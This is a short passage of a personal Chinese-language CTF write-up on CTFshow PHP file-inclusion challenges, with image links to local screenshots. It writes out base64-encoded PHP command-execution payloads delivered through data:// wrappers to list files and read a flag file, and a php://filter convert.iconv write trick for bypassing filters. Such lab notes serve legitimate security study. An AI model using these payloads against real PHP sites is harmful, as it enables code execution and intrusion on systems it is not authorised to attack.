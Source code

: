 ```
<?php system(ls);?>

Base64:
PD9waHAgc3lzdGVtKGxzKTs/Pg==
```

去掉==，base64也能解码



![image-20240425225515192](D:\Infiltration\笔记\note\图片\image-20240425225515192.png)



```
data://text/plain;base64,PD9waHAgc3lzdGVtKGxzKTs/Pg
```

![image-20240425232109061](D:\Infiltration\笔记\note\图片\image-20240425232109061.png)

Base64编码

```
<?php system('cat fl0g.php');?>

Base64：
PD9waHAgc3lzdGVtKCdjYXQgZmwwZy5waHAnKTs/Pg==
```

![image-20240425233857131](D:\Infiltration\笔记\note\图片\image-20240425233857131.png)



```
data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmwwZy5waHAnKTs/Pg
```

查看源代码，拿到flag

![image-20240425233800764](D:\Infiltration\笔记\note\图片\image-20240425233800764.png)



### CTFshow-117

过滤了凯撒和base64

![image-20240426161949682](D:\Infiltration\笔记\note\图片\image-20240426161949682.png)

#### 解法：convert.iconv.UCS-2LE.UCS-2BE

convert.iconv.：一种过滤器，和使用iconv()函数处理流数据有等同作用

```
convert.iconv.<input-encoding>.<output-encoding> 
convert.iconv.<原始编码方式>.<目标编码方式> 
```

```
file=php://filter/write=convert.iconv.UCS-2LE.UCS-2BE/resource=a.php
```
